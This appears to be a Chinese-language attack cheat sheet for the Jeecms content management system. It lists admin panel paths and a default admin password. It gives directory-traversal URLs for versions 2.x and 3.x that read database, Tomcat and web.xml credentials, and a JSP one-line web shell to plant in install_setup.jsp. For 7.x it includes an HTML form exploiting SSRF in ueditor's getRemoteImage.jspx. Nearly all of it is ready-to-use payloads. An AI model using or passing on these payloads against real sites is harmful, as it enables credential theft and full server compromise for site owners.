

# Jeecms

后台地址

```
#2.x后台
login/Jeecms.do

#3.x后台
jeeadmin/jeecms/index.do
```

默认密码

```
admin:password
```


### 2.x 版本缺陷

```
#JEECMS2.x版读取路径：
admin/core/template/Com_edit.do?relPath=\../../../classes/jdbc.properties

#JEECMS2.x版读取路径：
admin/core/template/Com_edit.do?relPath=\../../../web.xml

#JEECMS2.x版读取路径：
admin/core/template/Com_edit.do?relPath=\../../../../install\install_setup.jsp
```


### 3.x 版本缺陷

```
#获取tomcat密码：
/jeeadmin/jeecms/template/v_edit.do?root=../../conf/&name=../../conf/tomcat-users.xml

#获取JDBC数据库账号密码：
/jeeadmin/jeecms/template/v_edit.do?root=%2FWEB-INF%2Fconfig%2F&name=%2FWEB-INF%2Fconfig%2Fjdbc.properties

#修改web.xml取消对jsp的过滤：
/jeeadmin/jeecms/template/v_edit.do?root=%2FWEB-INF%2F&name=%2FWEB-INF%2Fweb.xml

#修改install/install_setup.jsp：
/jeeadmin/jeecms/template/v_edit.do?root=%2Finstall%2F&name=%2Finstall%2Finstall_setup.jsp
#插入Jsp一句话：
<%
if(request.getParameter("f")!=null)( new java.io.FileOutputStream(application.getRealPath("("f")) ).write(request.getParameter("t").getBytes());
%>
#修改后的一句话目录
/install/install_setup.jsp
#一句话连接成功后的jsp大马目录：
/ma.jsp
```

### 7.x 版本缺陷

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
        "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
    <title>Title</title>
</head>
<body>
    <form action="http://192.168.1.13:8080/ueditor/getRemoteImage.jspx" method="post"
          enctype="multipart/form-data">
        <input name="upfile" value="ue_separate_ue"> </input>
        <input name="mark"></input>
        <input type="file" name="uploadfile"></input>
        <input type="submit">
    </form>
</body>
</html>
```



### 9.x 版本缺陷

```
EECMS 9 has SSRF via the ueditor/getRemoteImage.jspx upfile parameter.(CVE-2018-20528)
```

